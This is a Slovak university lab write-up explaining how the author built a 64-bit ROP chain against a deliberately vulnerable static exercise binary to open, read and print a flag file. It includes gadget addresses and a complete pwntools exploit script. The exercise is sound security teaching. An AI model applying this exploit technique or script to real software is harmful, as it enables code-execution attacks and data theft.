






# Cvičenie 6 BIT

### Fedor Viest
### Cvičenie: Po 10:00

---
---

## BIN 2.1 rop chain
ASLR je stále vypnuté
Preskúmajte možnosť použitia ROP chain na získanie obsahu adresára "flag"
Ak je to možné, pokúste sa vytvoriť exploit (alebo aspoň dajte plán, ako na to)
Ak to nie je možné, zdôvodnite prečo
Pošlite riešenie

Úlohu som robil na 64bit binárke.

Najprv som si zistil offset k return pointru tak ako v minulom zadaní, ktorý mi vyšiel 88. Následne som si zistil aké hodnoty musia byť v registroch pre otvorenie, čítanie a zápis súboru. Na toto som použil stránku https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/

Spravil som si nasledovný outline útoku, kde sú vypísané hodnoty registrov a ktoré registre potrebujem:

```py
"""
001-flag/flag.txt
.
.
.
sys open = 
            rax 2, 
            rdi *filename, 
            rsi flags,
            rdx mode

sys read = 
            rax 0,
            rdi fd,
            rsi *buffer
            rdx count

sys write = 
            rax 1,
            rdi fd,
            rsi *buffer,
            rdx count,
"""
```

Útok som vykonával postupne po častiach (open, read, write). Ako prvé som zadal na začiatok buffera názov súboru a zvyšok paddingu som doplnil "A".

Jednotlivé gadgety som hľadal pomocou príkazu ROPgadget:

```bash
ROPgadget --multibr --binary 001-exercise-static-binary-64bit > rop.txt
```

Hľadal som hlavne gadgety pop <register>; ret;. V takýchto gadgetoch viem priamo nastavovať hodnotu a zároveň po nastavení sa stack pointer posunie na ďalšiu inštrukciu.

### Inštrukcie pre file open:

```py

file_name = b"001-flag/flag.txt\0"
padding = b"\x41" * (88 - len(file_name))


#constants
zero = p64(0x0)
one = p64(0x1)
two = p64(0x2)

# length
length = p64(0x300)

.
.
.

# opening file

#buffer address start
address = 0x7fffffffe230 + 48 
buffer_addr = p64(address) # change here if needed

# pop rax; pop rdx; pop rbx; ret
pop_rax_rdx_rbx = p64(0x0000000000485b4a)

#pop rsi; ret
pop_rsi = p64(0x0000000000409ffe)

# pop rdi; ret
pop_rdi = p64(0x0000000000401f8f)

# syscall; ret
syscall = p64(0x000000000041a886)
```

Najprv nastavujem register rax, pri4om sa nastaví aj rdx a rbx, následne nastavím hodnotu registra rsi, rdi a zavolám syscall.

Výsledok otvárania súboru:

```py
payload = file_name + padding

file_open = payload + pop_rax_rdx_rbx + two + zero + zero + pop_rsi + zero + pop_rdi + buffer_addr + syscall

```

V tejto časti sa hodnoty registrov nastavia nasledovne:
- rax - 2
- rdx - 0
- rbx - 0
- rsi - 0
- rdi - adresa začiatku buffera

### Inštrukcie pre file read:

Pri čítaní súboru som vedel nejaké inštrukcie použiť z otvárania súboru

```py
# pop rdx; pop rbx; ret
pop_rdx_rbx = p64(0x0000000000485b4b)

# buffer address for pop rdi instruction
buffer_pop = p64(address + 200)

# mov qword ptr [rdx], rax ; ret
mov_rdx_rax = p64(0x00000000004198a8)

# pop rdi; ret
pop_rdi = p64(0x0000000000401f8f)
```

V tomto kroku bolo komplikované dostať hodnotu z **rax**, kde sa nachádza file descriptor do registra **rdi**. Na toto by bola najvhodnejšie použiť **mov rdi, rax; ret;**, ale takúto inštrukciu som vo výstupe ROPgadget nenašiel. To znamená, že som sa to musel pokúsiť obísť. Obišiel som to tak, že som našiel inštrukciu **mov qword ptr [rdx], rax ; ret**, ktorá skopíruje hodnotu rax na adresu kam ukazuje register rdx. Čiže ešte pred vykonaním mov inštrukcie som musel nastaviť register rdx tak, aby ukazoval za inštrukciu **pop rdi**


V červenom je hodnota pointera, kde sa má uložiť hodnota z rax (zvýraznené modrou). Pred červeným rámikom sa nachádza adresa inštrukcie **pop rdx; pop rbx; ret;**. Pred modrým rámikom sa nachádza adresa inštrukcie **pop rdi; ret;**



Výsledok čítania súboru:

```py
file_read = pop_rdx_rbx + buffer_pop + zero + mov_rdx_rax + pop_rdi + b"\x90" * 8 + pop_rax_rdx_rbx + zero + zero + zero + pop_rsi + buffer_addr + pop_rdx_rbx + length + zero + syscall
```

Za inštrukciu pop rdi som potreboval nastaviť 8 ľubovaľných znakov, kvôli tomu, že tieto znaky sa v priebehu vykonávania programu prepíšu hodnotou z rax a ďaľšia inštrukcia sa musi nachádzať až za hodnotou pre inštrukciu pop.


V tejto časti sa hodnoty registrov nastavia nasledovne:
- rax - 0
- rdx - 300 (koľko znakov sa má prečítať)
- rbx - 0
- rsi - adresa na začiatok buffera
- rdi - fd (z rax)


### Inštrukcie pre file write:

V tomto kroku je jediná nová inštrukcia **pop rsp; ret;**, ostatné som používal z predošlých častí. V tejto časti sa už len využívali inštrukcie pop na nastavovanie registrov.

```py
file_write = pop_rax_rdx_rbx + one + zero + zero + pop_rdi + one + pop_rdx_rbx + length + zero + syscall
```

V tejto časti sa hodnoty registrov nastavia nasledovne:
- rax - 1
- rdx - 300 (koľko znakov sa má vypísať)
- rbx - 0
- rsi - adresa na začiatok buffera (nemení sa)
- rdi - 1 (fd - stdout)


### Hodnoty registrov

**Po file open**



**Po file read**



**Po file write**




### Výsledok (flag)




### Celý útok:



- červená - názov súboru
- oranžová - padding k return pointer
- zelená - časť file open
- modrá - časť file read
- fialová - časť file write


```py
from pwn import *

"""
001-flag/flag.txt
.
.
.
sys open = 
            rax 2, 
            rdi *filename, 
            rsi flags,
            rdx mode

sys read = 
            rax 0,
            rdi fd,
            rsi *buffer
            rdx count

sys write = 
            rax 1,
            rdi fd,
            rsi *buffer,
            rdx count,
"""

file_name = b"001-flag/flag.txt\0"
file_name = b"flag.txt\0"
padding = b"\x41" * (88 - len(file_name))

#constants
zero = p64(0x0)
one = p64(0x1)
two = p64(0x2)
# length
length = p64(0x300)

# opening file

#buffer address start
address = 0x7fffffffe230 + 48 # for normal usage (without gdb), if used with gdb, remove the +48
buffer_addr = p64(address) # change here if needed

# pop rax; pop rdx; pop rbx; ret
pop_rax_rdx_rbx = p64(0x0000000000485b4a)

#pop rsi; ret
pop_rsi = p64(0x0000000000409ffe)

# pop rdi; ret
pop_rdi = p64(0x0000000000401f8f)

# syscall; ret
syscall = p64(0x000000000041a886)

# reading file

# pop rdx; pop rbx; ret
pop_rdx_rbx = p64(0x0000000000485b4b)

# buffer address for pop rdi instruction
buffer_pop = p64(address + 200)

# mov qword ptr [rdx], rax ; ret
mov_rdx_rax = p64(0x00000000004198a8)

# pop rdi; ret
pop_rdi = p64(0x0000000000401f8f)


# writing file

# pop rsp; ret
pop_rsp = p64(0x00000000004023ee)


payload = file_name + padding

file_open = payload + pop_rax_rdx_rbx + two + zero + zero + pop_rsi + zero + pop_rdi + buffer_addr + syscall

file_read = pop_rdx_rbx + buffer_pop + zero + mov_rdx_rax + pop_rdi + b"\x90" * 8 + pop_rax_rdx_rbx + zero + zero + zero + pop_rsi + buffer_addr + pop_rdx_rbx + length + zero + syscall

file_write = pop_rax_rdx_rbx + one + zero + zero + pop_rdi + one + pop_rdx_rbx + length + zero + syscall

exploit = file_open + file_read + file_write


with open('payload', 'wb') as file:
    file.write(exploit)
```